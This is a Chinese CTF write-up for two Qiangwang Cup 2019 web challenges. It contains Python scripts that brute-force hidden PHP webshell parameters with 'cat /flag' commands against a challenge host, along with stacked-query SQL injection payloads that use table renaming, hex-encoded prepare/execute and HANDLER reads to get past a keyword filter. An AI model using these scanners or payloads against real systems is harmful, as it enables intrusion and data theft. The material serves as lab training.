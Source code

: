 ## [强网杯 2019]高明的黑客

+++

这题在buu上做实在是太折磨人🌶
buu上的环境扫描快了就报429，而这题保守估计有几万条数据要处理，假设我一秒10条，也要两三个小时
打开本题源码的时候我是懵的，几千个文件，然后搜了一下**eval**，其实也就几千个
这个时候我还是很有信心的，就是找到文件里的所有马然后一个个试，看哪个能用嘛

用我的烂python写了一个烂脚本(写了很久很久很久)

```python
import sys
import os
import re
from turtle import st
import requests
import time

path=r"E:\phpstudy_pro\WWW\test\src"
print(path)
files=os.listdir(path)  #得到所有文件名输出到一个表里面
url='http://2fd5d67b-3795-4fd9-a545-d7dc79a145ff.node4.buuoj.cn:81/'

for file in files:
    f=open(path+"\\"+file,"r")
    text=f.readlines()
    f.close()
    #print(text)
    for line in text:
        start1=line.find("$_GET[")#开始只找了包含eval的
        if start1!=-1:
            #print(line)
            end=line.find("']")
            php=r'=cat /flag;'
            #print(line[start1+12:end])
            GET=file+'?'+line[start1+7:end]+php
            time.sleep(0.05)
            r=requests.get(url+GET)
            if('flag'in r.text):
                print(line)
                print(GET)
                exit('you get the flag!!!')
                print(r.text)
            else :
                print('no')
                print(url+GET)
        start2=line.find("$_POST[")
        if start2!=-1:
            #print(line)
            end=line.find("']")
            POST=line[start2+8:end]
            data={f'{POST}':'cat /flag;'}
            time.sleep(0.05)
            r=requests.post(url=url+file,data=data)
            if('flag'in r.text):
                print(line)
                print('you get the flag!!!')
                exit(0)
            else :
                print('no')
                print(url+POST)
```

然后跑了十几分钟就跑完了，什么也没有

在我测试了许久确定我的脚本没有问题之后，就去看了WP
原来题目的意思是，只要有`$_GET`或者`$_POST`的都算马
上面的脚本就是按这个来的，也就是按这样来的话，我跑到环境结束也跑不出来
就直接看了是哪个文件的马，单独测试了一下发现脚本没问题就🆗了
贴一个大佬的巨快速脚本，要是没有429就好了😫

```python
import requests
import os
import re
import threading
import time

session = requests.Session()   
session.keep_alive = False  # requests默认使用urllib3库，默认是长连接，改为false,关闭多余的连接
requests.adapters.DEFAULT_RETRIES = 8  # 设置重连次数，防止线程数过高，断开连接
sem = threading.Semaphore(30)  # 设置最大线程数 ,别设置太大，不然还是会崩的挺厉害的，跑到关键的爆炸，心态就爆炸了

url = "http://2fd5d67b-3795-4fd9-a545-d7dc79a145ff.node4.buuoj.cn:81/"


path = r"E:\phpstudy_pro\WWW\test\src"+"\\"

rrGET = re.compile(r"\$_GET\[\'(\w+)\'\]")  # 匹配get参数，w 匹配任何字母和数字还有下划线，+ 匹配+之前的1次或多次

rrPOST = re.compile(r"\$_POST\[\'(\w+)\'\]")  # 匹配post参数

fileNames = os.listdir(path)  # 列出目录中的文件,以每个文件都开一个线程

flags = []  # 用于存所有的注入点信息,下面的flag表示注入点的信息，php文件名和参数名

local_file = open("flag.txt", "w", encoding="utf-8")


def run(fileName):
    with sem:
        file = open(path + fileName, 'r', encoding='utf-8')
        content = file.read()
        print("[+]checking:%s" % fileName)
        # 测试get的参数
        for i in rrGET.findall(content):
            r = session.get(url + "%s?%s=%s" % (fileName, i, "echo 'h3zh1';"))
            print(url + "%s?%s=%s" % (fileName, i, "echo h3zh1;"))
            if "h3zh1" in r.text:
                flag = "You Find it in GET fileName = %s and param = %s \n" % (fileName, i)
                print(flag)
                local_file.write(flag)
                exit(0)
        # return
    # 测试post的参数
    # for i in rrPOST.findall(content):
    #     r = session.post( url + fileName , data = { i : "echo h3zh1;" } )
    #     if "h3zh1" in r.text:
    #         flag = "You Find it in POST: fileName = %s and param = %s \n" % ( fileName, i )
    #         print(flag)
    #         local_file.writelines(flag)

if __name__ == '__main__':
    start_time = time.time()  # 开始时间
    print("[start]程序开始:" + str(start_time))
    thread_list = []
    for fileName in fileNames:
        t = threading.Thread(target=run, args=(fileName,))
        thread_list.append(t)
    for t in thread_list:
        t.start()
    for t in thread_list:
        t.join()
    end_time = time.time()
    local_file.close()  # 关文件
    print("[end]程序结束:用时:" + str(end_time - start_time))

```

然后自己搭了这题的环境，用大神的脚本过了下瘾

![image-20220728013239937](D:\Typora\note\CTF\web\强网杯.assets\image-20220728013239937.png)

过搭环境的瘾和看脚本飞速运行的瘾

+++

## [强网杯 2019]随便注(有意思的思路和方法)

+++

`1' or 1=1;#`  证明存在sql注入

![image-20220519224923311](D:\Typora\note\CTF\web\强网杯.assets\image-20220519224923311.png)

随便输个select

![image-20220519225157158](D:\Typora\note\CTF\web\强网杯.assets\image-20220519225157158.png)

看见了正则匹配的字符

由于select不能用了，于是想到用table代替，但查数据库版本发现为10，用不了table

于是试试联合注入

![image-20220519225848310](D:\Typora\note\CTF\web\强网杯.assets\image-20220519225848310.png)

注出列名

```mysql
1';show columns from `1919810931114514`;#
```

<font color='blured'>纯数字的表必须带上反引号!!!</font>

![image-20220519230109408](D:\Typora\note\CTF\web\强网杯.assets\image-20220519230109408.png)

![image-20220519230908651](D:\Typora\note\CTF\web\强网杯.assets\image-20220519230908651.png)

联合注入可以，绕过的<font color='pink'>骚</font>姿势就多了

#### 解法①

1.通过 rename 先把 words 表改名为其他的表名。

2.把 1919810931114514 表的名字改为 words 。

3 .给新 words 表添加新的列名 id 。

4.将 flag 改名为 data 。

```mysql
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alert table words change flag data varchar(100);#
```

然后输入1就可查到flag

#### 解法②

将select * from ` `1919810931114514` `进行16进制编码

构造payload

```mysql
1;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
```

* prepare…from…是预处理语句，会进行编码转换
* execute用来执行由SQLPrepare创建的SQL语句
* SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值

#### 解法③

类似于[GYCTF2020]Blacklist

使用了handler

直接上payload

```mysql
1'; handler `1919810931114514` open as `a`; handler `a` read next;#
1';handler `1919810931114514` open; handler `1919810931114514` read first;handler `1919810931114514` close;#
1'; handler `1919810931114514` open; handler `1919810931114514` read next;#
```

三种方法实际上一模一样

打开文件，查看文件~
